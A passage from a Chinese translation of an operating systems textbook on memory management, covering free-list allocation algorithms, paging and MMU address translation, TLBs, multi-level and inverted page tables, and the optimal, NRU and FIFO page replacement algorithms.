另一种记录内存使用情况的方法是，维护一个记录已分配内存段和空闲内存段的链表。其中链表中的一个结点或者包含一个进程，或者是两个进程间的一个空的空闲区。可用图3-6c所示的段链表来表示图3-6a所示的内存布局。链表中的每一个结点都包含以下域：空闲区（H）或进程（P）的指示标志、起始地址、长度和指向下一结点的指针。
在本例中，段链表是按照地址排序的，其好处是当进程终止或被换出时链表的更新非常直接。一个要终止的进程一般有两个邻居（除非它是在内存的最底端或最顶端），它们可能是进程也可能是空闲区，这就导致了图3-7所示的四种组合。在图3-7a中更新链表需要把P替换为H；在图3-7b和图3-7c中两个结点被合并成为一个，链表少了一个结点；在图3-7d中三个结点被合并为一个，从链表中删除了两个结点。
因为进程表中表示终止进程的结点中通常含有指向对应于其段链表结点的指针，因此段链表使用双链表可能要比图3-6c所示的单链表更方便。这样的结构更易于找到上一个结点，并检查是否可以合并。
当按照地址顺序在链表中存放进程和空闲区时，有几种算法可以用来为创建的进程（或从磁盘换入的已存在的进程）分配内存。这里，假设存储管理器知道要为进程分配的多大的内存。最简单的算法是首次适配（first fit）算法。存储管理器沿着段链表进行搜索，直到找到一个足够大的空闲区，除非空闲区大小和要分配的空间大小正好一样，否则将该空闲区分为两部分，一部分供进程使用，另一部分形成新的空闲区。首次适配算法是一种速度很快的算法，因为它尽可能少地搜索链表结点。
对首次适配算法进行很小的修改就可以得到下次适配（next fit）算法。它的工作方式和首次适配算法相同，不同点是每次找到合适的空闲区时都记录当时的位置。以便在下次寻找空闲区时从上次结束的地方开始搜索，而不是像首次适配算法那样每次都从头开始。Bays（1977）的仿真程序证明下次适配算法的性能略低于首次适配算法。
另一个著名的并广泛应用的算法是最佳适配（best fit）算法。最佳适配算法搜索整个链表（从开始到结束），找出能够容纳进程的最小的空闲区。最佳适配算法试图找出最接近实际需要的空闲区，以最好地区配请求和可用空闲区，而不是先拆分一个以后可能会用到的大的空闲区。
以图3-6为例来考察首次适配算法和最佳适配算法。假如需要一个大小为2的块，首次适配算法将分配在位置5的空闲区，而最佳适配算法将分配在位置18的空闲区。
因为每次调用最佳适配算法时都要搜索整个链表，所以它要比首次适配算法慢。让人感到有点意外的是它比首次适配算法或下次适配算法浪费更多的内存，因为它会产生大量无用的小空闲区。一般情况下，首次适配算法生成的空闲区更大一些。
最佳适配的空闲区会分裂出很多非常小的空闲区，为了避免这一问题，可以考虑最差适配（worst fit）算法，即总是分配最大的可用空闲区，使新的空闲区比较大从而可以继续使用。仿真程序表明最差适配算法也不是一个好主意。
如果为进程和空闲区维护各自独立的链表，那么这四个算法的速度都能得到提高。这样就能集中精力只检查空闲区而不是进程。但这种分配速度的提高的一个不可避免的代价就是增加复杂度和内存释放速度变慢，因为必须将一个回收的段从进程链表中删除并插入空闲区链表。
如果进程和空闲区使用不同的链表，则可以按照大小对空闲区链表排序，以便提高最佳适配算法的速度。在使用最佳适配算法搜索由小到大排列的空闲区链表时，只要找到一个合适的空闲区，则这个空闲区就是能容纳这个作业的最小的空闲区，因此是最佳适配。因为空闲区链表以单链表形式组织，所以不需要进一步搜索。空闲区链表按大小排序时，首次适配算法与最佳适配算法一样快，而下次适配算法在这里则毫无意义。
在与进程段分离的单独链表中保存空闲区时，可以做一个小小的优化。不必像图3-6c那样用单独的数据结构存放空闲区链表，而可以利用空闲区存储这些信息。每个空闲区的第一个字可以是空闲区大小，第二个字指向下一个空闲区。于是就不再需要图3-6c中所示的那些三个字加一位（P/H）的链表结点了。
另一种分配算法称为快速适配（quick fit）算法，它为那些常用大小的空闲区维护单独的链表。例如，有一个n项的表，该表的第一项是指向大小为4KB的空闲区链表表头的指针，第二项是指向大小为8KB的空闲区链表表头的指针，第三项是指向大小为12KB的空闲区链表表头的指针，以此类推。像21KB这样的空闲区既可以放在20KB的链表中，也可以放在一个专门存放大小比较特别的空闲区的链表中。
尽管基址寄存器和界限寄存器可以用于创建地址空间的抽象，还有另一个问题需要解决：管理软件的膨胀（bloatware）。虽然存储器容量增长快速，但是软件大小的增长更快。在20世纪80年代，许多大学用一台4MB的VAX计算机运行分时操作的系统，供十几个用户（已经或多或少足够满足需要了）同时运行。现在微软公司为单用户Vista系统推荐至少512MB内存，并且只能运行简单的应用程序，如果运行复杂应用程序则要1GB内存。而多媒体的潮流则进一步推动了对内存的需求。
这一发展的结果是，需要运行的程序往往大到内存无法容纳，而且必然需要系统能够支持多个程序同时运行，即使内存可以满足其中单独一个程序的需要，但总体来看，它们仍然超出了内存大小。交换技术（swapping）并不是一个有吸引力的解决方案，因为一个典型的SATA磁盘的峰值传输率最高达到100MB/s，这意味着至少需要10秒才能换出一个1GB的程序，并需要另一个10秒才能再将一个1GB的程序换入。
程序大于内存的问题早在计算时代开始就产生了，虽然只是有限的应用领域，像科学和工程计算（模拟宇宙的创建或模拟新型航空器都会花费大量内存）。在20世纪60年代所采取的解决方法是：把程序分割成许多片段，称为覆盖（overlay）。程序开始执行时，将覆盖管理模块装入内存，该管理模块立即装入并运行覆盖0。执行完成后，覆盖0通知管理模块装入覆盖1，或者占用覆盖0的上方位置（如果有空间），或者占用覆盖0（如果没有空间）。一些覆盖系统非常复杂，允许多个覆盖块同时在内存中。覆盖块存放在磁盘上，在需要时由操作系统动态地换入换出。
虽然由系统完成实际的覆盖块换入换出操作，但是程序员必须把程序分割成多个片段。把一个大程序分割成小的、模块化的片段是非常费时和枯燥的，并且易于出错。很少程序员擅长使用覆盖技术。因此，没过多久就有人找到一个办法，把全部工作都交给计算机去做。
采用的这个方法（Fotheringham，1961）称为虚拟内存（virtual memory）。虚拟内存的基本思想是：每个程序拥有自己的地址空间，这个空间被分割成多个块，每一块称作一页或页面（page）。每一页有连续的地址范围。这些页被映射到物理内存，但并不是所有的页都必须在内存中才能运行程序。当程序引用到一部分在物理内存中的地址空间时，由硬件立刻执行必要的映射。当程序引用到一部分不在物理内存中的地址空间时，由操作系统负责将缺失的部分装入物理内存并重新执行失败的指令。
从某个角度来讲，虚拟内存是对基址寄存器和界限寄存器的一种综合。8088为正文和数据分离出专门的基址寄存器（但不包括界限寄存器）。而虚拟内存使得整个地址空间可以用相对较小的单元映射到物理内存，而不是为正文段和数据段分别进行重定位。下面会介绍虚拟内存是如何实现的。
虚拟内存很适合在多道程序设计系统中使用，许多程序的片段同时保存在内存中。当一个程序等待它的一部分读入内存时，可以把CPU交给另一个进程使用。
大部分虚拟内存系统中都使用一种称为分页（paging）的技术，我们现在就介绍这一技术。在任何一台计算机上，程序引用了一组内存地址。当程序执行指令
MOV REG,1000
时，它把地址为1000的内存单元的内容复制到REG中（或者相反，这取决于计算机的型号）。地址可以通过索引、基址寄存器、段寄存器或其他方式产生。
由程序产生的这些地址称为虚拟地址（virtual address），它们构成了一个虚拟地址空间（virtual address space）。在没有虚拟内存的计算机上，系统直接将虚拟地址送到内存总线上，读写操作使用具有同样地址的物理内存字；而在使用虚拟内存的情况下，虚拟地址不是被直接送到内存总线上，而是被送到内存管理单元（Memory Management Unit，MMU），MMU把虚拟地址映射为物理内存地址，如图3-8所示。
图3-9中一个简单的例子说明了这种映射是如何工作的。在这个例子中，有一台可以产生16位地址的计算机，地址范围从0到64K，且这些地址是虚拟地址。然而，这台计算机只有32KB的物理内存，因此，虽然可以编写64KB的程序，但它们却不能被完全调入内存运行。在磁盘上必须有一个可以大到64KB的程序核心映像的完整副本，以保证程序片段在需要时能被调入内存。
虚拟地址空间按照固定大小划分成称为页面（page）的若干单元。在物理内存中对应的单元称为页框（page frame）。页面和页框的大小通常是一样的，在本例中是4KB，现有的系统中常用的页大小一般从512字节到64KB。对应于64KB的虚拟地址空间和32KB的物理内存，我们得到16个虚拟页面和8个页框。RAM和磁盘之间的交换总是以整个页面为单元进行的。
图3-9中的标记符号如下：标记0K～4K的范围表示该页的虚拟地址或物理地址是0～4095。4K～8K的范围表示地址4096～8191，等等。每一页包含了4096个地址，起始于4096的整数倍位置，结束于4096倍数缺1。
当程序试图访问地址0时，例如执行下面这条指令
MOV REG,0
将虚拟地址0送到MMU。MMU看到虚拟地址落在页面0（0～4095），根据其映射结果，这一页面对应的是页框2（8192～12 287），因此MMU把地址变换为8192，并把地址8192送到总线上。内存对MMU一无所知，它只看到一个读或写地址8192的请求并执行它。MMU从而有效地把所有从0～4095的虚拟地址映射到了8192～12 287的物理地址。
同样地，指令
MOV REG,8192
被有效地转换为：
MOV REG,24576
因为虚拟地址8192（在虚拟页面2中）被映射到物理地址24 567（在物理页框6中）上。第三个例子，虚拟地址20 500在距虚拟页面5（虚拟地址20 480～24 575）起始地址20字节处，并且被映射到物理地址12 288+20=12 308。
通过恰当地设置MMU，可以把16个虚拟页面映射到8个页框中的任何一个。但是这并没有解决虚拟地址空间比物理内存大的问题。在图3-9中只有8个物理页框，于是只有8个虚拟页面被映射到了物理内存中，在图3-9中用叉号表示的其他页并没有被映射。在实际的硬件中，用一个“在/不在”位（present/absent bit）记录页面在内存中的实际存在情况。
当程序访问了一个未映射的页面，例如执行指令
MOV REG,32780
将会发生什么情况呢？虚拟页面8（从32 768开始）的第12个字节所对应的物理地址是什么呢？MMU注意到该页面没有被映射（在图中用叉号表示），于是使CPU陷入到操作系统，这个陷阱称为缺页中断（page fault）。操作系统找到一个很少使用的页框且把它的内容写入磁盘（如果它不在磁盘上）。随后把需要访问的页面读到刚才回收的页框中，修改映射关系，然后重新启动引起陷阱的指令。
例如，如果操作系统决定放弃页框1，那么它将把虚拟页面8装入物理地址8192，并对MMU映射做两处修改。首先，它要标记虚拟页面1表项为未映射，使以后任何对虚拟地址4096～8191的访问都导致陷阱。随后把虚拟页面8的表项的叉号改为1，因此在引起陷阱的指令重新启动时，它将把虚拟地址32780映射为物理地址4108（4096+12）。
下面查看一下MMU的内部结构以便了解它是怎么工作的，以及了解为什么我们选用的页面大小都是2的整数次幂。在图3-10中可以看到一个虚拟地址的例子，虚拟地址8196（二进制是0010000000000100）用图3-9所示的MMU映射机制进行映射，输入的16位虚拟地址被分为4位的页号和12位的偏移量。4位的页号可以表示16个页面，12位的偏移可以为一页内的全部4096个字节编址。
可用页号作为页表（page table）的索引，以得出对应于该虚拟页面的页框号。如果“在/不在”位是0，则将引起一个操作系统陷阱。如果该位是1，则将在页表中查到的页框号复制到输出寄存器的高3位中，再加上输入虚拟地址中的低12位偏移量。如此就构成了15位的物理地址。输出寄存器的内容随即被作为物理地址送到内存总线。
作为一种最简单的实现，虚拟地址到物理地址的映射可以概括如下：虚拟地址被分成虚拟页号（高位部分）和偏移量（低位部分）两部分。例如，对于16位地址和4KB的页面大小，高4位可以指定16个虚拟页面中的一页，而低12位接着确定了所选页面中的字节偏移量（0～4095）。但是使用3或者5或者其他位数拆分虚拟地址也是可行的。不同的划分对应不同的页面大小。
虚拟页号可用做页表的索引，以找到该虚拟页面对应的页表项。由页表项可以找到页框号（如果有的话）。然后把页框号拼接到偏移量的高位端，以替换掉虚拟页号，形成送往内存的物理地址。
页表的目的是把虚拟页面映射为页框。从数学角度说，页表是一个函数，它的参数是虚拟页号，结果是物理页框号。通过这个函数可以把虚拟地址中的虚拟页面域替换成页框域，从而形成物理地址。
页表项的结构
下面将讨论单个页表项的细节。页表项的结构是与机器密切相关的，但不同机器的页表项存储的信息都大致相同。图3-11中给出了页表项的一个例子。不同计算机的页表项大小可能不一样，但32位是一个常用的大小。最重要的域是页框号。毕竟页映射的目的是找到这个值，其次是“在/不在”位，这一位是1时表示该表项是有效的，可以使用；如果是0，则表示该表项对应的虚拟页面现在不在内存中，访问该页面会引起一个缺页中断。
“保护”（protection）位指出一个页允许什么类型的访问。最简单的形式是这个域只有一位，0表示读/写，1表示只读。一个更先进的方法是使用三位，各位分别对应是否启用读、写、执行该页面。
为了记录页面的使用状况，引入了“修改”（modified）位和“访问”（referenced）位。在写入一页时由硬件自动设置修改位。该位在操作系统重新分配页框时是非常有用的。如果一个页面已经被修改过（即它是“脏”的），则必须把它写回磁盘。如果一个页面没有被修改过（即它是“干净”的），则只简单地把它丢弃就可以了，因为它在磁盘上的副本仍然是有效的。这一位有时也被称为脏位（dirty bit），因为它反映了该页面的状态。
不论是读还是写，系统都会在该页面被访问时设置访问位。它的值被用来帮助操作系统在发生缺页中断时选择要被淘汰的页面。不再使用的页面要比正在使用的页面更适合淘汰。这一位在即将讨论的很多页面置换算法中都会起到重要的作用。
最后一位用于禁止该页面被高速缓存。对那些映射到设备寄存器而不是常规内存的页面而言，这个特性是非常重要的。假如操作系统正在紧张地循环等待某个I/O设备对它刚发出的命令作出响应，保证硬件是不断地从设备中读取数据而不是访问一个旧的被高速缓存的副本是非常重要的。通过这一位可以禁止高速缓存。具有独立的I/O空间而不使用内存映射I/O的机器不需要这一位。
应该注意的是，若某个页面不在内存时，用于保存该页面的磁盘地址不是页表的一部分。原因很简单，页表只保存把虚拟地址转换为物理地址时硬件所需要的信息。操作系统在处理缺页中断时需要把该页面的磁盘地址等信息保存在操作系统内部的软件表格中。硬件不需要它。
在深入到更多应用实现问题之前，值得再次强调的是：虚拟内存本质上是用来创造一个新的抽象概念——地址空间，这个概念是对物理内存的抽象，类似于进程是对物理机器（CPU）的抽象。虚拟内存的实现，是将虚拟地址空间分解成页，并将每一页映射到物理内存的某个页框或者（暂时）解除映射。因此，本章的基本内容即关于操作系统创建的抽象，以及如何管理这个抽象。
我们已经了解了虚拟内存和分页的基础。现在是时候深入到更多关于可能的实现的细节中去了。在任何分页式系统中，都需要考虑两个主要问题：
1)虚拟地址到物理地址的映射必须非常快。
2)如果虚拟地址空间很大，页表也会很大。
第一个问题是由于每次访问内存，都需要进行虚拟地址到物理地址的映射。所有的指令最终都必须来自内存，并且很多指令也会访问内存中的操作数。因此，每条指令进行一两次或更多页表访问是必要的。如果执行一条指令需要1ns，页表查询必须在0.2ns之内完成，以避免映射成为一个主要瓶颈。
第二个问题来自现代计算机使用至少32位的虚拟地址，而且64位变得越来越普遍。假设页长为4KB，32位的地址空间将有100万页，而64位地址空间简直多到超乎你的想象。如果虚拟地址空间中有100万个页，那么页表必然有100万条表项。另外请记住，每个进程都需要自己的页表（因为它有自己的虚拟地址空间）。
对大而快速的页映射的需求成为了构建计算机的重要约束。最简单的设计（至少从概念上）是使用由一组“快速硬件寄存器”组成的单一页表，每一个表项对应一个虚页，虚页号作为索引，如图3-10所示。当启动一个进程时，操作系统把保存在内存中的进程页表的副本载入到寄存器中。在进程运行过程中，不必再为页表而访问内存。这个方法的优势是简单并且在映射过程中不需要访问内存。而缺点是在页表很大时，代价高昂。而且每一次上下文切换都必须装载整个页表，这样会降低性能。
另一种极端方法是，整个页表都在内存中。那时所需的硬件仅仅是一个指向页表起始位置的寄存器。这样的设计使得在上下文切换时，进行“虚拟地址到物理地址”的映射只需重新装入一个寄存器。当然，这种做法的缺陷是在执行每条指令时，都需要一次或多次内存访问，以完成页表项的读入，速度非常慢。
1.转换检测缓冲区
现在讨论加速分页机制和处理大的虚拟地址空间的实现方案，先介绍加速分页问题。大多数优化技术都是从内存中的页表开始的。这种设计对效率有着巨大的影响。例如，假设一条指令要把一个寄存器中的数据复制到另一个寄存器。在不分页的情况下，这条指令只访问一次内存，即从内存中取指令。有了分页后，则因为要访问页表而引起更多次的访问内存。由于执行速度通常被CPU从内存中取指令和数据的速度所限制，所以每次内存访问必须进行两次页表访问会降低一半的性能。在这种情况下，没人会采用分页机制。
多年以来，计算机的设计者已经意识到了这个问题，并找到了一种解决方案。这种解决方案的建立基于这样一种现象：大多数程序总是对少量的页面进行多次的访问，而不是相反的。因此，只有很少的页表项会被反复读取，而其他的页表项很少被访问。
上面提到的解决方案是为计算机设置一个小型的硬件设备，将虚拟地址直接映射到物理地址，而不必再访问页表。这种设备称为转换检测缓冲区（Translation Lookaside Buffer，TLB），有时又称为相联存储器（associate memory），如图3-12所示。它通常在MMU中，包含少量的表项，在此例中为8个，在实际中很少会超过64个。每个表项记录了一个页面的相关信息，包括虚拟页号、页面的修改位、保护码（读/写/执行权限）和该页所对应的物理页框。除了虚拟页号（不是必须放在页表中的），这些域与页表中的域是一一对应的。另外还有一位用来记录这个表项是否有效（即是否在使用）。
如果一个进程在虚拟地址19、20和21之间有一个循环，那么可能会生成图3-12中的TLB。因此，这三个表项中有可读和可执行的保护码。当前主要使用的数据（假设是个数组）放在页面129和页面130中。页面140包含了用于数组计算的索引。最后，堆栈位于页面860和页面861。
现在看一下TLB是如何工作的。将一个虚拟地址放入MMU中进行转换时，硬件首先通过将该虚拟页号与TLB中所有表项同时（即并行）进行匹配，判断虚拟页面是否在其中。如果发现了一个有效的匹配并且要进行的访问操作并不违反保护位，则将页框号直接从TLB中取出而不必再访问页表。如果虚拟页面号确实是在TLB中，但指令试图在一个只读页面上进行写操作，则会产生一个保护错误，就像对页表进行非法访问一样。
当虚拟页号不在TLB中时发生的事情值得讨论。如果MMU检测到没有有效的匹配项时，就会进行正常的页表查询。接着从TLB中淘汰一个表项，然后用新找到的页表项代替它。这样，如果这一页面很快再被访问，第二次访问TLB时自然将会命中而不是不命中。当一个表项被清除出TLB时，将修改位复制到内存中的页表项，而除了访问位，其他的值不变。当页表项中从页表装入到TLB中时，所有的值都来自内存。
2.软件TLB管理
到目前为止，我们已经假设每一台具有虚拟内存的机器都具有由硬件识别的页表，以及一个TLB。在这种设计中，对TLB的管理和TLB的失效处理都完全由MMU硬件来实现。只有在内存中没有找到某个页面时，才会陷入到操作系统中。
在过去，这样的假设是正确的。但是，许多现代的RISC机器，包括SPARC、MIPS以及HP PA，几乎所有的页面管理都是在软件中实现的。在这些机器上，TLB表项被操作系统显式地装载。当发生TLB访问失效，不再是由MMU到页表中查找并取出需要的页表项，而是生成一个TLB失效并将问题交给操作系统解决。系统必须先找到该页面，然后从TLB中删除一个项，接着装载一个新的项，最后再执行先前出错的指令。当然，所有这一切都必须在有限的几条指令中完成，因为TLB失效比缺页中断发生的更加频繁。
让人感到惊奇的是，如果TLB大（如64个表项）到可以减少失效率时，TLB的软件管理就会变得足够有效。这种方法的最主要的好处是获得了一个非常简单的MMU，这就在CPU芯片上为高速缓存以及其他改善性能的设计腾出了相当大的空间。Uhlig等人在论文（Uhlig，1994）中讨论过软件TLB管理。
到目前为止，已经开发了多种不同的策略来改善使用软件TLB管理的机器的性能。其中一种策略是在减少TLB失效的同时，又要在发生TLB失效时减少处理开销（Bala等人，1994）。为了减少TLB失效，有时候操作系统能用“直觉”指出哪些页面下一步可能会被用到并预先为它们在TLB中装载表项。例如，当一个客户进程发送一条消息给同一台机器上的服务器进程，很可能服务器将不得不立即运行。了解了这一点，当执行处理send的陷阱时，系统也可以找到服务器的代码页、数据页以及堆栈页，并在有可能导致TLB失效前把它们装载到TLB中。
无论是用硬件还是用软件来处理TLB失效，常见方法都是找到页表并执行索引操作以定位将要访问的页面。用软件做这样的搜索的问题是，页表可能不在TLB中，这就会导致处理过程中的额外的TLB失效。可以通过在内存中的固定位置维护一个大的（如4KB）TLB表项的软件高速缓存（该高速缓存的页面总是被保存在TLB中）来减少TLB失效。通过首先检查软件高速缓存，操作系统能够实质性地减少TLB失效。
当使用软件TLB管理时，一个基本要求是要理解两种不同的TLB失效的区别在哪里。当一个页面访问在内存中而不在TLB中时，将产生软失效（soft miss）。那么此时所要做的就是更新一下TLB，不需要产生磁盘I/O。典型的处理需要10～20个机器指令并花费几个纳秒完成操作。相反，当页面本身不在内存中（当然也不在TLB中）时，将产生硬失效。此刻需要一次磁盘存取以装入该页面，这个过程大概需要几毫秒。硬失效的处理时间往往是软失效的百万倍。
在原有的内存页表的方案之上，引入快表（TLB）可以用来加快虚拟地址到物理地址的转换。不过这不是惟一需要解决的问题，另一个问题是怎样处理巨大的虚拟地址空间。下面将讨论两种解决方法。
1.多级页表
第一种方法是采用多级页表。一个简单的例子如图3-13所示。在图3-13a中，32位的虚拟地址被划分为10位的PT1域、10位的PT2域和12位的Offset（偏移量）域。因为偏移量是12位，所以页面长度是4KB，共有220 个页面。
引入多级页表的原因是避免把全部页表一直保存在内存中。特别是那些从不需要的页表就不应该保留。比如一个需要12MB内存的进程，其最底端是4MB的程序正文段，后面是4MB的数据段，顶端是4MB的堆栈段，在数据段上方和堆栈段下方之间是大量根本没有使用的空闲区。
考察图3-13b例子中的二级页表是如何工作的。在左边是顶级页表，它具有1024个表项，对应于10位的PT1域。当一个虚拟地址被送到MMU时，MMU首先提取PT1域并把该值作为访问顶级页表的索引。因为整个4GB（32位）虚拟地址空间已经被分成1024个4MB的块，所以这1024个表项中的每一个都表示4MB的虚拟地址空间。
由索引顶级页表得到的表项中含有二级页表的地址或页框号。顶级页表的表项0指向程序正文的页表，表项1指向数据的页表，表项1023指向堆栈的页表，其他的表项（用阴影表示的）未用。现在把PT2域作为访问选定的二级页表的索引，以便找到该虚拟页面的对应页框号。
下面看一个示例，考虑32位虚拟地址0x00403004（十进制4 206 596）位于数据部分12 292字节处。它的虚拟地址对应PT1=1，PT2=2，Offset=4。MMU首先用PT1作为索引访问顶级页表得到表项1，它对应的地址范围是4M～8M。然后，它用PT2作为索引访问刚刚找到的二级页表并得到表项3，它对应的虚拟地址范围是在它的4M块内的12 288～16 383（即绝对地址4 206 592～4 210 687）。这个表项含有虚拟地址0x00403004所在页面的页框号。如果该页面不在内存中，页表项中的“在/不在”位将是0，引发一次缺页中断。如果该页面在内存中，从二级页表中得到的页框号将与偏移量（4）结合形成物理地址。该地址被放到总线上并送到内存中。
值得注意的是，虽然在图3-13中虚拟地址空间超过100万个页面，实际上只需要四个页表：顶级页表以及0～4M（正文段）、4M～8M（数据段）和顶端4M（堆栈段）的二级页表。顶级页表中1021个表项的“在/不在”位都被设为0，当访问它们时强制产生一个缺页中断。如果发生了这种情况，操作系统将注意到进程正在试图访问一个不希望被访问的地址，并采取适当的行动，比如向进程发出一个信号或杀死进程等。在这个例子中的各种长度选择的都是整数，并且选择PT1与PT2等长，但在实际中也可能是其他的值。
图3-13所示的二级页表可扩充为三级、四级或更多级。级别越多，灵活性就越大，但页表超过三级会带来更大的复杂性，这样做是否值得令人怀疑。
2.倒排页表
对32位虚拟地址空间，多级页表可以很好地发挥作用。但是，随着64位计算机变得更加普遍，情况发生了彻底的变化。如果现在的地址空间是264 字节，页面大小为4KB，我们需要一个有252 个表项的页表。如果每一个表项8个字节，那么整个页表就会超过3000万GB（30PB）。仅仅为页表耗费3000万GB不是个好主意（现在不是，可能以后几年也不是）。因而，具有64位分页虚拟地址空间的系统需要一个不同的解决方案。
解决方案之一就是使用倒排页表（inverted page table）。在这种设计中，在实际内存中每一个页框有一个表项，而不是每一个虚拟页面有一个表项。例如，对于64位虚拟地址，4KB的页，1GB的RAM，一个倒排页表仅需要262 144个页表项。表项记录哪一个（进程，虚拟页面）对定位于该页框。
虽然倒排页表节省了大量的空间（至少当虚拟地址空间比物理内存大得多的时候是这样的），但它也有严重的不足：从虚拟地址到物理地址的转换会变得很困难。当进程n访问虚拟页面p时，硬件不再能通过把p当作指向页表的一个索引来查找物理页框。取而代之的是，它必须搜索整个倒排页表来查找某一个表项（n，p）。此外，该搜索必须对每一个内存访问操作都要执行一次，而不仅仅是在发生缺页中断时执行。每一次内存访问操作都要查找一个256K的表是不会让你的机器运行得很快的。
走出这种两难局面的办法是使用TLB。如果TLB能够记录所有频繁使用的页面，地址转换就可能变得像通常的页表一样快。但是，当发生TLB失效时，需要用软件搜索整个倒排页表。一个可行的实现该搜索的方法是建立一张散列表，用虚拟地址来散列。当前所有在内存中的具有相同散列值的虚拟页面被链接在一起，如图3-14所示。如果散列表中的槽数与机器中物理页面数一样多，那么散列表的冲突链的平均长度将会是1个表项，这将会大大提高映射速度。一旦页框号被找到，新的（虚拟页号，物理页框号）对就会被装载到TLB中。
倒排页表在64位机器中很常见，因为在64位机器中即使使用了大页面，页表项的数量还是很庞大的。例如，对于4MB页面和64位虚拟地址，需要242 个页表项。处理大虚存的其他方法可参见Talluri等人的论文（1995）。
当发生缺页中断时，操作系统必须在内存中选择一个页面将其换出内存，以便为即将调入的页面腾出空间。如果要换出的页面在内存驻留期间已经被修改过，就必须把它写回磁盘以更新该页面在磁盘上的副本；如果该页面没有被修改过（如一个包含程序正文的页面），那么它在磁盘上的副本已经是最新的，不需要回写。直接用调入的页面覆盖掉被淘汰的页面就可以了。
当发生缺页中断时，虽然可以随机地选择一个页面来置换，但是如果每次都选择不常使用的页面会提升系统的性能。如果一个被频繁使用的页面被置换出内存，很可能它在很短时间内又要被调入内存，这会带来不必要的开销。人们已经从理论和实践两个方面对页面置换算法进行了深入的研究。下面我们将介绍几个最重要的算法。
有必要指出，“页面置换”问题在计算机设计的其他领域中也会同样发生。例如，多数计算机把最近使用过的32字节或64字节的存储块保存在一个或多个高速缓存中。当这些高速缓存存满之后就必须选择一些块丢掉。除了花费时间较短外（有关操作必须在若干纳秒中完成，而不是像页面置换那样在微秒级上完成），这个问题同页面置换问题完全一样。之所以花费时间较短，其原因是丢掉的高速缓存块可以从内存中获得，而内存既没有寻道时间也不存在旋转延迟。
第二个例子是Web服务器。服务器可以把一定数量的经常访问的Web页面存放在存储器的高速缓存中。但是，当存储器高速缓存已满并且要访问一个不在高速缓存中的页面时，就必须要置换高速缓存中的某个Web页面。由于在高速缓存中的Web页面不会被修改，因此在磁盘中的Web页面的副本总是最新的。而在虚拟存储系统中，内存中的页面既可能是干净页面也可能是脏页面。除此之外，置换Web页面和置换虚拟内存中的页面需要考虑的问题是类似的。
在接下来讨论的所有页面置换算法中都存在一个问题：当需要从内存中换出某个页面时，它是否只能是缺页进程本身的页面？这个要换出的页面是否可以属于另外一个进程？在前一种情况下，可以有效地将每一个进程限定在固定的页面数目内；后一种情况则不能。这两种情况都是可能的。在3.5.1节我们会继续讨论这一点。
很容易就可以描述出最好的页面置换算法，虽然此算法不可能实现。该算法是这样工作的：在缺页中断发生时，有些页面在内存中，其中有一个页面（包含紧接着的下一条指令的那个页面）将很快被访问，其他页面则可能要到10、100或1000条指令后才会被访问，每个页面都可以用在该页面首次被访问前所要执行的指令数作为标记。
最优页面置换算法规定应该置换标记最大的页面。如果一个页面在800万条指令内不会被使用，另外一个页面在600万条指令内不会被使用，则置换前一个页面，从而把因需要调入这个页面而发生的缺页中断推迟到将来，越久越好。计算机也像人一样，希望把不愉快的事情尽可能地往后拖延。
这个算法惟一的问题就是它是无法实现的。当缺页中断发生时，操作系统无法知道各个页面下一次将在什么时候被访问。（在最短作业优先调度算法中，我们曾遇到同样的情况，即系统如何知道哪个作业是最短的呢？）当然，通过首先在仿真程序上运行程序，跟踪所有页面的访问情况，在第二次运行时利用第一次运行时收集的信息是可以实现最优页面置换算法的。
用这种方式，我们可以通过最优页面置换算法对其他可实现算法的性能进行比较。如果操作系统达到的页面置换性能只比最优算法差1%，那么即使花费大量的精力来寻找更好的算法最多也只能换来1%的性能提高。
为了避免混淆，读者必须清楚以上页面访问情况的记录只针对刚刚被测试过的程序和它的一个特定的输入，因此从中导出的性能最好的页面置换算法也只是针对这个特定的程序和输入数据的。虽然这个方法对评价页面置换算法很有用，但它在实际系统中却不能使用。下面我们将研究可以在实际系统中使用的算法。
为使操作系统能够收集有用的统计信息，在大部分具有虚拟内存的计算机中，系统为每一页面设置了两个状态位。当页面被访问（读或写）时设置R位；当页面（即修改页面）被写入时设置M位。这些位包含在页表项中，如图3-11所示。每次访问内存时更新这些位，因此由硬件来设置它们是必要的。一旦设置某位为1，它就一直保持1直到操作系统将它复位。
如果硬件没有这些位，则可以进行以下的软件模拟：当启动一个进程时，将其所有的页面都标记为不在内存；一旦访问任何一个页面就会引发一次缺页中断，此时操作系统就可以设置R位（在它的内部表格中），修改页表项使其指向正确的页面，并设为READ ONLY模式，然后重新启动引起缺页中断的指令；如果随后对该页面的修改又引发一次缺页中断，则操作系统设置这个页面的M位并将其改为READ/WRITE模式。
可以用R位和M位来构造一个简单的页面置换算法：当启动一个进程时，它的所有页面的两个位都由操作系统设置成0，R位被定期地（比如在每次时钟中断时）清零，以区别最近没有被访问的页面和被访问的页面。
当发生缺页中断时，操作系统检查所有的页面并根据它们当前的R位和M位的值，把它们分为4类：
第0类：没有被访问，没有被修改。
第1类：没有被访问，已被修改。
第2类：已被访问，没有被修改。
第3类：已被访问，已被修改。
尽管第1类初看起来似乎是不可能的，但是一个第3类的页面在它的R位被时钟中断清零后就成了第1类。时钟中断不清除M位是因为在决定一个页面是否需要写回磁盘时将用到这个信息。清除R位而不清除M位产生了第1类页面。
NRU（Not Recently Used，最近未使用）算法随机地从类编号最小的非空类中挑选一个页面淘汰之。这个算法隐含的意思是，在最近一个时钟滴答中（典型的时间是大约20ms）淘汰一个没有被访问的已修改页面要比淘汰一个被频繁使用的“干净”页面好。NRU主要优点是易于理解和能够有效地被实现，虽然它的性能不是最好的，但是已经够用了。
另一种开销较小的页面置换算法是FIFO（First-In First-Out，先进先出）算法。为了解释它是怎样工作的，我们设想有一个超级市场，它有足够的货架能展示k种不同的商品。有一天，某家公司介绍了一种新的方便食品——即食的、冷冻干燥的、可以用微波炉加热的酸乳酪，这个产品非常成功，所以容量有限的超市必须撤掉一种旧的商品以便能够展示该新产品。
一种可能的解决方法就是找到该超级市场中库存时间最长的商品并将其替换掉（比如某种120年以前就开始卖的商品），理由是现在已经没有人喜欢它了。这实际上相当于超级市场有一个按照引进时间排列的所有商品的链表。新的商品被加到链表的尾部，链表头上的商品则被撤掉。
同样的思想也可以应用在页面置换算法中。由操作系统维护一个所有当前在内存中的页面的链表，最新进入的页面放在表尾，最久进入的页面放在表头。当发生缺页中断时，淘汰表头的页面并把新调入的页面加到表尾。当FIFO用在超级市场时，可能会淘汰剃须膏，但也可能淘汰面粉、盐或黄油这一类常用商品。因此，当它应用在计算机上时也会引起同样的问题，由于这一原因，很少使用纯粹的FIFO算法。
